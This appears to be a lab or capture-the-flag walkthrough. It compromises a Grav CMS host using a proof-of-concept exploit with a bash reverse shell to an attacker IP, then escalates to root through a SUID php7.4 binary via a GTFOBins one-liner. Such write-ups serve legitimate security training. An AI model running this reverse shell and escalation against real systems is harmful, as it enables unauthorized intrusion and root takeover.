 `└─$ autonmap -H 192.168.190.12 -t all`

`Running all scans on 192.168.190.12`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

If we go to the http port, we can see it's Grav CMS
![[Pasted image 20240208113714.png]]

![[Pasted image 20240208113730.png]]

![[Pasted image 20240208113745.png]]

This takes us to 49788 which is a Metasploit module - but it doesn't work. So let's look for a PoC.

![[Pasted image 20240208113914.png]]

We run this with just the id command and it says completed successfully but we get no feedback.
Try again with a reverse shell.

`└─$ python exploit.py -c 'bash -i >& /dev/tcp/192.168.45.235/4444 0>&1' -t http://192.168.190.12/grav-admin`
[`*] Creating File`
`Scheduled task created for file creation, wait one minute`
`[*] Running file`
`Scheduled task created for command, wait one minute`
`Exploit completed`

Catch and upgrade

`└─$ nc -nlvp 4444`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`
`Ncat: Connection from 192.168.190.12:40500.`
`bash: cannot set terminal process group (2825): Inappropriate ioctl for device`
`bash: no job control in this shell`
`www-data@gravity:~/html/grav-admin$ python -c 'import pty; pty.spawn("/bin/bash")'`
`<min$ python -c 'import pty; pty.spawn("/bin/bash")'`
`Command 'python' not found, did you mean:`
  `command 'python3' from deb python3`
  `command 'python' from deb python-is-python3`

`www-data@gravity:~/html/grav-admin$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`www-data@gravity:~/html/grav-admin$` 

Look for applications where suid permission is set (ignore the garbage ones)
`find / -perm -u=s 2>/dev/null | grep -v '^/proc\|^/run\|&/sys\|^/snap'`

`/usr/lib/dbus-1.0/dbus-daemon-launch-helper`
`/usr/lib/eject/dmcrypt-get-device`
`/usr/lib/snapd/snap-confine`
`/usr/lib/openssh/ssh-keysign`
`/usr/lib/policykit-1/polkit-agent-helper-1`
`/usr/bin/chsh`
`/usr/bin/at`
`/usr/bin/su`
`/usr/bin/fusermount`
`/usr/bin/chfn`
`/usr/bin/umount`
`/usr/bin/sudo`
`/usr/bin/passwd`
`/usr/bin/newgrp`
`/usr/bin/mount`
`/usr/bin/php7.4`
`/usr/bin/gpasswd`

Setuid set on php7.4, check GTFObins

![[Pasted image 20240208115443.png]]

`/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"`

# `whoami`
`whoami`
`root`
# `cat /root/proof.txt`
`cat /root/proof.txt`
`50f67c7850de41bd40ed058abddcb322`
